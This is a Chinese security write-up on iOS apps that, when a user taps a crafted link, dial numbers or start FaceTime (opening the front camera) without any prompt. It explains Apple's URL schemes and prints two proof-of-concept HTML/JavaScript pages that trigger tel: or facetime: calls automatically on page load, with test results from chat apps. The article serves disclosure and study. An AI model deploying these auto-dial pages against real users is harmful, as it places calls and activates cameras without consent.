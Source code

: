 # iOS应用自动拨打电话，开启摄像头缺陷

0x00 背景
-------

* * *

国外一安全研究者发现该缺陷，在iOS设备上的某些应用里（其测试的Google+、Facebook Messenger、Gmail都成功触发），当用户点击了构造好的链接时，会自动拨打电话，或开启facetime，从而打开前置摄像头，且无任何提醒。缺陷产生的原因是开发者没有看清官方开发文档对于Phone Links和FaceTime Links中这样的一条说明，“当用户在本地应用里打开该类型的链接时，iOS并不展示提醒窗口"，从而导致缺陷的产生。

0x01 缺陷描述
---------

* * *

查看苹果官方文档，对于URL方案的规定大致有如下几种类型：

### 1）Mail Links（发送邮件）

点击该类型的链接后，会自动调用邮件应用，且mailto URL必须指定一个收件地址。

网页链接中的字符串格式如下

```
<a href="mailto:frank@wwdcdemo.example.com">John Frank</a>

```

本地应用上的URL字符串格式为

```
mailto:frank@wwdcdemo.example.com

```

当然也可以在字符串中添加主题等内容，比如

```
mailto:foo@example.com?cc=bar@example.com&subject=Greetings%20from%20Cupertino!&body=Wish%20you%20were%20here!

```

具体的mailto格式可以查看RFC文档

[http://www.ietf.org/rfc/rfc2368.txt](http://www.ietf.org/rfc/rfc2368.txt)

### 2）Phone Links（拨打电话）

tel类型的URL是用来开启iOS设备上拨打电话的应用，并且拨打指定的号码。当用户在网页中点击了一个该类型的链接时，iOS设备会弹出提醒窗口，询问用户是否拨打该号码，若用户同意则开始拨打电话。但是当用户在本地应用里打开该类型的链接时，iOS并不展示提醒窗口，而是直接拨打指定的电话。当然本地应用可以配置是否显示提醒。

比如在网页中嵌入一个a标签，内容为

```
<a href="tel:10086">fuck it</a>

```

那么访问该页面，点击fuck it链接后自动弹出拨打电话的提醒。如图1

![2014082711012276720.png](http://drops.javaweb.org/uploads/images/c8a2b9a9ae1c53957cb53385c607c1add19fb335.jpg)

官方文档同时给出了本地应用里的url形式，本地应用中URL字符串为tel:1-408-555-5555

在短信页面输入tel://10086点击后会提示拨打电话，如图2

![2014082711020263770.png](http://drops.javaweb.org/uploads/images/4925c04a44666ecdc43a32e8a74ea49898837848.jpg)

同时防止恶意的请求，链接里包含* #字符时，系统并不会拨打该号码。而且iOS上的电话号码的识别检测是默认开启的，如果想让网页上包含的数字不被识别为手机号码，则需要在网页中加入如下的标签

```
<meta name = "format-detection" content = "telephone=no">

```

具体的URL方案可以查看如下RFC文档，

[http://www.ietf.org/rfc/rfc2396.txt](http://www.ietf.org/rfc/rfc2396.txt)[http://www.ietf.org/rfc/rfc2806.txt](http://www.ietf.org/rfc/rfc2806.txt)

### 3）FaceTime Links（开启facetime，开启前置摄像头）

FaceTime类型的URL是用来调用FaceTime应用拨打指定的用户，可以是电话号码或者是绑定的邮箱地址。当用户在网页里点开FaceTime类型的URL时，系统会提示是否拨打；但是当在本地应用里点击该类型的URL时，iOS直接开启FaceTime应用拨打电话，而无提醒。本地应用可以配置是否显示提醒。 网页中的链接格式为

```
<a href="facetime:14085551234">Connect using FaceTime</a>
<a href="facetime:user@example.com">Connect using FaceTime</a>

```

本地应用中URL字符串为

```
facetime:// 14085551234
facetime://user@example.com

```

当然防止恶意请求，链接里包含* #字符时，系统并不会拨打该号码。而且iOS7之前的系统，用该协议拨打电话时候，是用的默认普通的拨打电话的应用而不是FaceTime应用

### 4）SMS Links（发送短信）

SMS方案是用来打开短信应用，其URL格式如下sms:其中指定目标用户的号码，可以包含0到9的数组和+-.三个字符，并且URL字符串不能包含任何其他的文本信息

网页中的链接格式为

```
<a href="sms:">Launch Messages App</a>
<a href="sms:1-408-555-1212">New SMS Message</a>

```

本地应用中URL字符串为

```
sms:1-408-555-1212

```

### 5）其他类型的Links

其他像Map Links（打开地图）、iTunes Links（打开iTunes）、YouTube Links（打开YouTube）等不一一介绍，是点击指定的链接后打开相应的地图、iTunes应用等，详细查看苹果官方开发文档。

由上述的介绍可以看出，其中可以利用的有Phone Links和FaceTime Links。因为其中都有一条这样的描述，如果链接是在本地应用里，则点击的话会直接调用相关系统应用，而没有任何提醒。

即如果在应用里直接输入tel://xxxx、facetime://xxxx类似的字符，会直接调用相关拨号应用。同样我们可以在应用里输入网页链接，然后在网页内容里嵌入这样的a标签链接，然后利用js实现加载网页时自动点击该a标签链接。

所以具体的测试代码如下，将其保存为html文件即可。

```
<a id="target" href="facetime:HackForFreedom@fbi.com">click me</a> 
<script> 
var target = document.getElementById("target"); 
var fakeEvent = document.createEvent("MouseEvents"); 
fakeEvent.initEvent("click", true, false); 
target.dispatchEvent(fakeEvent); 
</script>

```

或者如下

```
<html>
<head>
    <title>v</title>
</head>
<body>
    <a id="dial" href="tel:10086">fuck it</a>
</body>
<script type="text/javascript">
<!--
window.onload = function()
{
    window.location.href = document.getElementById("dial").href;
};
//-->
</script>
</html>

```

tel:xxxxx表示要拨打的电话，点击该链接后则自动拨打电话；

facetiem:xxxxx表示拨打的facetime帐号，点击该链接后自动开启摄像头，无任何提醒；

> 注：其中第二个代码在某些应用里测试没有执行成功，第一个代码在应用里基本能执行成功。

0x02 案例测试
---------

* * *

测试了国内的几个常用的聊天类应用，基本都存在该缺陷，已经报告给厂商，修复可能需要一段时间。这里以在乌云上提交的易信为案例（官方将发布新版本）。 测试版本为iOS版本6.1.4、易信V2.9.0.1680

在朋友圈发布该url，如图3

![2014082711044861565.png](http://drops.javaweb.org/uploads/images/a9627f51dbca5723a152fcf33f01d21b3c22c68c.jpg)

好友点击后自动拨打电话或开启FaceTime，如图2、图3

![2014082711050945066.png](http://drops.javaweb.org/uploads/images/15fbe65f4b7b225aaeee767a1f856fee0fd8c1aa.jpg)

![2014082711052082517.png](http://drops.javaweb.org/uploads/images/b5f6ea03f0125f0747ce9736d7f00766357a1a90.jpg)

0x03 如何修复
---------

* * *

在苹果官方开发文档给出的说明上，在本地应用打开相应的URL是可以配置提醒设置的。所以可能是开发者对苹果URL的规范未全面了解，疏忽导致了该问题。由于未接触过iOS开发，所以具体的修复不清楚。:)

References：

[http://algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc](http://algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc)[https://developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1](https://developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1)[https://developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1](https://developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1)